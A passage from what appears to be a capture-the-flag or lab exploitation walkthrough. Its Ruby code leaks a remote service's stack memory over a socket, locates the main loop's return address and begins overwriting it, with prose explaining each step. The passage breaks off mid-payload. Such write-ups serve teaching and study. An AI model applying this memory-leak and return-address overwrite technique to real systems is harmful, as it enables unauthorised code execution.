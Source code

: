 <span class="lnr">21 </span>  <span class="Comment"># We have to re-implement &quot;get&quot; here, so we can handle a large buffer and</span>
<span class="lnr">22 </span>  <span class="Comment"># so we can quit when we find what we need</span>
<span class="lnr">23 </span>  out = [<span class="Type">MESSAGE_GET</span>, <span class="Constant">0</span>].pack(<span class="Special">&quot;</span><span class="Constant">II</span><span class="Special">&quot;</span>)
<span class="lnr">24 </span>  s.write(out)
<span class="lnr">25 </span>  get_int(s) <span class="Comment"># type (don't care)</span>
<span class="lnr">26 </span>  len = get_int(s)
<span class="lnr">27 </span>  result = <span class="Special">&quot;&quot;</span>
<span class="lnr">28 </span>
<span class="lnr">29 </span>  <span class="Comment"># Loop and read till we either reach the end, of we find the value we need</span>
<span class="lnr">30 </span>  <span class="Statement">while</span>(result.length &lt; len)
<span class="lnr">31 </span>    result = result + s.recv(<span class="Type">STACK_MAX</span> - <span class="Type">STACK_MIN</span> + <span class="Constant">1</span>)
<span class="lnr">32 </span>
<span class="lnr">33 </span>    <span class="Comment"># As soon as we find the location, end</span>
<span class="lnr">34 </span>    <span class="Statement">if</span>(loc = result.index(address_to_find))
<span class="lnr">35 </span>      <span class="Statement">return</span> <span class="Type">STACK_MIN</span> + loc
<span class="lnr">36 </span>    <span class="Statement">end</span>
<span class="lnr">37 </span>  <span class="Statement">end</span>
<span class="lnr">38 </span>
<span class="lnr">39 </span>  <span class="Comment"># D'awww :(</span>
<span class="lnr">40 </span>  puts(<span class="Special">&quot;</span><span class="Constant">Couldn't find the return address :(</span><span class="Special">&quot;</span>)
<span class="lnr">41 </span>  <span class="Statement">exit</span>
<span class="lnr">42 </span><span class="rubyDefine">end</span>
</pre>

It uses the <em>exact same technique</em> as we initially used to read that static string from memory, except instead of reading 20 or 30 bytes, it reads 0x7fffff&mdash;that's about 8 megabytes.

Somewhere in that chunk of memory will be the actual stack. And somewhere on the stack will be the return address of the main looping function. And, fortunately, because I can capture the base address of the binary (outlined last section), I know exactly what that address will be!

To put it another way: I know that the main loop returns to an address when it's done. I can calculate that address, and therefore I know the absolute return address of the main loop. If I know it, it means I can find it on the stack. And if I can find it on the stack, it means I can change it.

Here's some code that finds the address and changes it:

<pre>
<span class="lnr"> 1 </span><span class="Comment"># Set up the connection</span>
<span class="lnr"> 2 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">&quot;</span><span class="Constant">192.168.1.119</span><span class="Special">&quot;</span>, <span class="Constant">8585</span>)
<span class="lnr"> 3 </span>receive_code(s, <span class="Constant">0x00001000</span>, <span class="Special">&quot;</span><span class="Constant">init</span><span class="Special">&quot;</span>)
<span class="lnr"> 4 </span>login(s)
<span class="lnr"> 5 </span>
<span class="lnr"> 6 </span><span class="Comment"># Get the base address</span>
<span class="lnr"> 7 </span>base_addr = get_base_address(s)
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span><span class="Comment"># Get the return address</span>
<span class="lnr">10 </span>return_address = find_return_address(s, base_addr)
<span class="lnr">11 </span>
<span class="lnr">12 </span><span class="Comment"># Do a typical overwrite - overwrite the main loop's return address</span>
<span class="lnr">13 </span><span class="Comment"># with 0x43434343</span>
<span class="lnr">14 </span>store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x4141414141414141</span>] * <span class="Constant">10</span>)